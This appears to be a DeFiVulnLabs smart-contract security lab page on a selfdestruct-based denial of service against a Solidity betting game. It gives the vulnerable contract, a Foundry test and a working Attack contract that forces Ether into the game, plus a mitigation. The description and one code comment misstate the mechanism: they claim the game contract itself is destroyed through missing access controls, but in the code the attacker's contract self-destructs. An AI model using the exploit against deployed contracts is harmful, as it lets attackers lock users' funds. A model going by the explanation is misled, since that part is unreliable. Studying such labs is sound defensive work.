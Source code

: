 # Selfdestruct  
[Selfdestruct.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Selfdestruct.sol)   
**Name:** Self-Destruct Vulnerability

**Description:**  
The EtherGame Self-Destruct Vulnerability is a flaw in the smart contract code that allows an attacker to disrupt the game by causing the EtherGame contract to self-destruct (using the selfdestruct opcode).
The vulnerability arises due to the dos function in the Attack contract, which performs a self-destruct operation on the EtherGame contract after receiving a significant amount of Ether. As a result of the self-destruct, the EtherGame contract's functionality is permanently disabled, making it impossible for anyone to deposit or claim the winner's reward.

**Scenario:**

1. Deploy EtherGame
2. Players (say Alice and Bob) decides to play, deposits 1 Ether each.
3. Deploy Attack with address of EtherGame
4. Call Attack.attack sending 5 ether. This will break the game No one can become the winner.

**What happened?**  
Attack forced the balance of EtherGame to equal 7 ether.
Now no one can deposit and the winner cannot be set.
Due to missing or insufficient access controls, malicious parties can self-destruct the contract.
The selfdestruct(address) function removes all bytecode from the contract address and sends all ether stored to the specified address.

**Mitigation:**  
Instead of relying on this.balance to track the deposited Ether,use a state variable to keep track of the total deposited amount.

**EtherGame Contract:**  
```
contract EtherGame {
    uint public constant targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance; // vulnerable
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}
``` 

****How to Test:****

forge test --contracts src/test/Selfdestruct.sol -vvvv  
```
// Test function for a scenario where selfdestruct is used.
function testSelfdestruct() public {
    // Log Alice's balance.
    console.log("Alice balance", alice.balance);
    // Log Eve's balance.
    console.log("Eve balance", eve.balance);

    // Log the start of Alice's deposit.
    console.log("Alice deposit 1 Ether...");
    // Set the message sender to Alice.
    vm.prank(alice);
    // Alice deposits 1 ether to the EtherGameContract.
    EtherGameContract.deposit{value: 1 ether}();

    // Log the start of Eve's deposit.
    console.log("Eve deposit 1 Ether...");
    // Set the message sender to Eve.
    vm.prank(eve);
    // Eve deposits 1 ether to the EtherGameContract.
    EtherGameContract.deposit{value: 1 ether}();

    // Log the balance of the EtherGameContract.
    console.log(
        "Balance of EtherGameContract",
        address(EtherGameContract).balance
    );

    // Log the start of the attack.
    console.log("Attack...");
    // Create a new instance of the Attack contract with EtherGameContract as a parameter.
    AttackerContract = new Attack(EtherGameContract);
    // Send 5 ether to the dos function of the AttackerContract.
    AttackerContract.dos{value: 5 ether}();

    // Log the new balance of the EtherGameContract after the attack.
    console.log(
        "Balance of EtherGameContract",
        address(EtherGameContract).balance
    );
    // Log the completion of the exploit.
    console.log("Exploit completed, Game is over");
    // Try to deposit 1 ether to the EtherGameContract. This call will fail as the contract has been destroyed.
    EtherGameContract.deposit{value: 1 ether}(); // This call will fail due to contract destroyed.
}

// Contract to attack the EtherGame contract.
contract Attack {
    // The EtherGame contract to be attacked.
    EtherGame etherGame;

    // Constructor to set the EtherGame contract.
    constructor(EtherGame _etherGame) {
        etherGame = _etherGame;
    }

    // The function to perform the attack.
    function dos() public payable {
        // Break the game by sending ether so that the game balance is >= 7 ether.

        // Cast the EtherGame contract address to a payable address.
        address payable addr = payable(address(etherGame));
        // Self-destruct the contract and send its balance to the EtherGame contract.
        selfdestruct(addr);
    }
}
```  
Red box: exploited successful, game is over.  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F1b7b4334-de84-448a-a344-646eb909fb4f%2FUntitled.png?table=block&id=ed7eeade-45f5-4ed8-a8e7-b6e940b0af07&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)